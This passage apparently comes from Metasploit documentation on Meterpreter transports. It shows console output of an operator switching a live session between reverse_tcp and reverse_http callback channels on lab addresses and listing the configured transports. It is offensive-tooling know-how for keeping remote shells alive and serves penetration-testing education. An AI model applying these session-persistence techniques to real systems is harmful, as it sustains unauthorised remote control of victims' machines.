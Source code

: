 Moving to the next transport:

```bash
meterpreter > transport next
[*] Changing to next transport ...
[+] Successfully changed to the next transport, killing current session.

[*] 10.1.10.35 - Meterpreter session 1 closed.  Reason: User exit
msf exploit(handler) >
[*] 10.1.10.40:46130 (UUID: 8e97549ed2baf6a8/x86_64=2/windows=1/2015-06-02T09:56:05Z) Attaching orphaned/stageless session ...
[*] Meterpreter session 2 opened (10.1.10.40:5105 -> 10.1.10.40:46130) at 2015-06-02 20:53:54 +1000

msf exploit(handler) > sessions -i 2
[*] Starting interaction with 2...

meterpreter > transport list
Session Expiry  : @ 2015-06-09 19:56:05

    Curr  URL                                                                                                    Comms T/O  Retry Total  Retry Wait
    ----  ---                                                                                                    ---------  -----------  ----------
    *     http://10.1.10.40:5105/jpdUntK69qiVKZQrwETonAkuobdXaVJovSXlqkvd7s5WB58Xbc3fNoZ5Cld4kAfVJgbVFsgvSpH_N/  100000     50000        2500
          tcp://10.1.10.40:5005                                                                                  300        3600         10
          tcp://10.1.10.40:6000                                                                                  300        3600         10
```

This output shows that we moved from the original `reverse_tcp` to the `reverse_http` transport, and this is now the current transport.

Moving to the next transport again takes the session to the second `reverse_tcp` listener:

```bash
meterpreter > transport next
[*] Changing to next transport ...
[+] Successfully changed to the next transport, killing current session.

[*] 10.1.10.35 - Meterpreter session 2 closed.  Reason: User exit
msf exploit(handler) > [*] Meterpreter session 3 opened (10.1.10.40:5005 -> 10.1.10.35:49277) at 2015-06-02 20:54:45 +1000

msf exploit(handler) > sessions -i 3
[*] Starting interaction with 3...

meterpreter > transport list
Session Expiry  : @ 2015-06-09 19:56:06

    Curr  URL                                                                                                    Comms T/O  Retry Total  Retry Wait
    ----  ---                                                                                                    ---------  -----------  ----------
    *     tcp://10.1.10.40:5005                                                                                  300        3600         10
          tcp://10.1.10.40:6000                                                                                  300        3600         10
          http://10.1.10.40:5105/jpdUntK69qiVKZQrwETonAkuobdXaVJovSXlqkvd7s5WB58Xbc3fNoZ5Cld4kAfVJgbVFsgvSpH_N/  100000     50000        2500
```
